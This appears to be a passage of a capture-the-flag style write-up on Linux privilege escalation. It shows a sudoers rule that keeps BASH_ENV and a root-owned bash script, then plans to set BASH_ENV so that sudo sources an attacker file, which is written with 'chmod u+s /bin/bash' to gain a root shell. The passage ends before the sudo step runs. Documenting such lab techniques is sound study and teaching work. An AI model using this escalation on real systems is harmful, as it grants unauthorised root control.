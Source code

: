 **Technical Analysis:**
- `secure_path` prevents PATH manipulation attacks
- `env_keep+="ENV BASH_ENV"` allows BASH_ENV persistence through sudo
- `/usr/bin/systeminfo` is a bash script, making it vulnerable to BASH_ENV injection

**Commands and Steps:**

Content of `systeminfo` file 🔻

```bash
hish@environment:/tmp$ cat /usr/bin/systeminfo
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
hish@environment:/tmp$ ls -al /usr/bin/systeminfo
-rwxr-xr-x 1 root root 452 Jan 12  2025 /usr/bin/systeminfo
hish@environment:/tmp$ 
```
{: .nolineno }

The sudoers entry has `secure_path` set, which resets the PATH to a safe one. But note: the `env_keep` does not include PATH, so the PATH will be reset to the secure_path. Therefore, we cannot manipulate PATH.

But wait: the `env_keep` includes `BASH_ENV`. We can set `BASH_ENV` to a file that contains commands we want to run. When the bash script starts, it will source the file pointed to by `BASH_ENV` (if it is set). 

This is because the script starts with `#!/bin/bash`, and bash sources the file named by `BASH_ENV` when it starts in non-interactive mode.

So the plan is:

1. Create a file (e.g., in /tmp) that contains a command to escalate privileges (like spawning a shell).
2. Set the `BASH_ENV` environment variable to point to that file.
3. Run `sudo /usr/bin/systeminfo`. The script will source our file, and we get a root shell.

I will be using SUID permission on bash with this script🔻

```bash
hish@environment:/tmp$ echo "chmod u+s /bin/bash" > script.sh
hish@environment:/tmp$ chmod +x script.sh
```
{: .nolineno }
